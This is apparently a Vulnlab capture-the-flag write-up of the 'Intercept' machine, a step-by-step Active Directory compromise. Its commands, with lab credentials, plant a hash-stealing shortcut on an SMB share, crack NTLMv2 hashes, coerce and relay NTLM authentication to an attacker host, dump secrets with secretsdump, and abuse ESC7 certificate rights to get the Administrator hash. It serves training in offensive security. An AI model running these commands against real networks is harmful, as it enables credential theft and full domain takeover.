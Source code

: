 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Intercept/logo.png
date: 2025-05-01 09:45:47 +07:00
modified: 2025-05-01 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [Intercept, Vulnlab, Nmap, SMB, NetExec, share enumeration, writeable share, Autologon64, slinky, NTLMv2, hashcat, WebDAV, NTLM relay, LDAP signing, coercion, PetitPotam, dnstool.py, ntlmrelayx, delegate-access, RBCD, machine account abuse, getST.py, pass-the-ticket, secretsdump.py, Kerberos, KRB5CCNAME, ESC7, BloodHound, Certify, ManageCA, ManageCertificates, certipy, certificate abuse, CA-manager, pfx extraction, NTLM hash extraction, ADCS, privilege escalation, domain persistence, Active Directory]
title: Intercept - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Intercept is a multi-layered, hard-difficulty Windows machine that emphasizes lateral movement, NTLM relay attacks, and advanced certificate abuse techniques. Initial enumeration reveals an SMB share allowing write access, leading to the extraction of autologon credentials and NTLMv2 hashes via Autologon64 and slinky. These credentials are cracked and used to stage a relay attack over HTTP using a WebDAV listener. LDAP signing is disabled, making NTLM relay via ntlmrelayx and dnstool.py possible. This opens up a path for a Resource-Based Constrained Delegation (RBCD) attack by coercing DC authentication and creating a new machine account. From there, the ticket is relayed using getST.py, allowing us to dump secrets with secretsdump.py. BloodHound and Certify highlight certificate misconfigurations tied to ESC7 and the presence of a Domain Admin user with certificate management privileges. Using Certipy, we request a certificate, extract it, and use it in a pass-the-cert attack to impersonate a Domain Admin and fully compromise the domain.


# Enumeration
Initial Nmap scans reveal open ports on two key systems:

***WS01.INTERCEPT.VL***
```Bash
PORT     STATE SERVICE 
135/tcp  open  msrpc   
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

***MS01.INTERCEPT.VL***
```Bash
PORT     STATE SERVICE
53/tcp   open  domain 
88/tcp   open  kerberos-sec
135/tcp  open  msrpc  
139/tcp  open  netbios-ssn 
389/tcp  open  ldap   
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5    
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP 
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server 
5985/tcp open  wsman
```

Using Netexec, we enumerate SMB shares and discover that WS01 has a dev share with both read and write access.
![](https://photos.squarezero.dev/file/abir-images/Intercept/1.png)

Inside the share are README files and Autologon64.exe, suggesting users frequently use this location to retrieve sensitive files.
![](https://photos.squarezero.dev/file/abir-images/Intercept/2.png)
![](https://photos.squarezero.dev/file/abir-images/Intercept/22.png)

# NTLM Theft via Slinky
With write access to the share, we drop a malicious shortcut to capture NTLM hashes using the slinky module in Netexec. Shortly after, we capture the NTLMv2 hash of KATHRYN.SPENCER.

`netexec smb $ws01IP -u ' ' -p ' ' --shares -M slinky -o SERVER=10.8.2.110 Name=important`

![](https://photos.squarezero.dev/file/abir-images/Intercept/3.png)

After That we can used hashcat to decrypt the hash.
`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

![](https://photos.squarezero.dev/file/abir-images/Intercept/4.png)

# WebDAV Authentication Relay & RBCD

Using Kathryn's credentials, we check for LDAP signing (disabled) and coercion vulnerabilities on DC01.
```Bash
# LDAP Signing
netexec ldap $DC01IP -u 'KATHRYN.SPENCER' -p 'Chocolate1' -M ldap-checker

# Coerce Vulnerablities
netexec ldap $DC01IP -u 'KATHRYN.SPENCER' -p 'Chocolate1' -M coerce_plus
```
![](https://photos.squarezero.dev/file/abir-images/Intercept/7.png)

We add our attack machine to the domain DNS.
`python3 dnstool.py -u intercerpt.vl\\kathryn.spencer -p 'Chocolate1' -r attacker.intercept.vl -a add -d <Attacker IP> <DCIP>`
![](https://photos.squarezero.dev/file/abir-images/Intercept/8.png)

We then start ntlmrelayx with delegation access and launch a coercion attack via PetitPotam. The relay attack allows us to create a new machine account with delegation rights over WS01.
```Bash
# Relay Attack
ntlmrelayx.py -t ldap://10.10.137.53 -smb2support --delegate-access

# Coercion Attack
python3 PetitPotam.py -u 'KATHRYN.SPENCER' -p 'Chocolate1' -d 'intercept.vl' 'attacker@80/noteexists' 10.10.137.54
```
![](https://photos.squarezero.dev/file/abir-images/Intercept/9.png)
![](https://photos.squarezero.dev/file/abir-images/Intercept/10.png)

We then impersonate the domain administrator using getST.py.
`getST.py -impersonate Administrator -spn 'cifs/WS01.intercept.vl' -dc-ip '10.10.137.53' intercept.vl/KGKGKLHT$:'D*6@yP6>E**Tmrq'`
![](https://photos.squarezero.dev/file/abir-images/Intercept/11.png)

And use the ticket to dump secrets.

```BASH
export KRB5CCNAME=Administrator@cifs_WS01.intercept.vl@INTERCEPT.VL.ccache

secretsdump.py -k -no-pass intercept.vl/administrator@ws01.intercept.vl
```
![](https://photos.squarezero.dev/file/abir-images/Intercept/12.png)

# ESC 7
## Manage CA Rights 
BloodHound reveals that SIMON.BOWEN has GenericAll rights over the CA-Managers group.
![](https://photos.squarezero.dev/file/abir-images/Intercept/14.png)

Running Certify confirms that members of the CA-Managers group have ManageCA rights on the certificate authority.
![](https://photos.squarezero.dev/file/abir-images/Intercept/15.png)

To escalate, we first abuse Simon’s GenericAll privilege by adding him to the ca-managers group. Once added, we use Certipy to assign Simon as an officer in the CA. If everything is successful, Simon will now have ManageCertificates rights on the CA.

```Bash
# Add Group Member
net rpc group addmem "ca-managers" "Simon.Bowen" -U "INTERCEPT"/"Simon.Bowen"%"b0OI_fHO859+Aw" -S "10.10.137.53"

# Add Officer
certipy ca -add-officer Simon.Bowen -username Simon.Bowen -password 'b0OI_fHO859+Aw' -ca 'intercept-DC01-CA' -dc-ip 10.10.137.53

#Rights Enumeration
certipy find -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.137.53 -enabled -vulnerable -stdout

```
![](https://photos.squarezero.dev/file/abir-images/Intercept/16.png)

## Abuse ManageCertificate Rights
With the new rights, we can abuse a default certificate template to request a certificate as Administrator. The request will return an error but still save the private key. Using the request ID, we can manually issue the certificate.

```Bash
# Request Certificate
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.137.53 -template SubCA -ca 'intercept-DC01-CA' -upn administrator@intercept.vl

# Issue the Request
certipy ca -username Simon.Bowen -password 'b0OI_fHO859+Aw' -ca 'intercept-DC01-CA' -dc-ip 10.10.137.53 -issue-request 5
```

![](https://photos.squarezero.dev/file/abir-images/Intercept/17.png)

Finally, we retrieve the .pfx file for the issued certificate and authenticate as Administrator to dump the NTLM hash.
```Bash
# Retrive the Certificate
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.137.53 -ca 'intercept-DC01-CA' -retrieve 5

# Retrive Administrator Hash
certipy auth -pfx administrator.pfx -dc-ip 10.10.137.53
```
![](https://photos.squarezero.dev/file/abir-images/Intercept/18.png)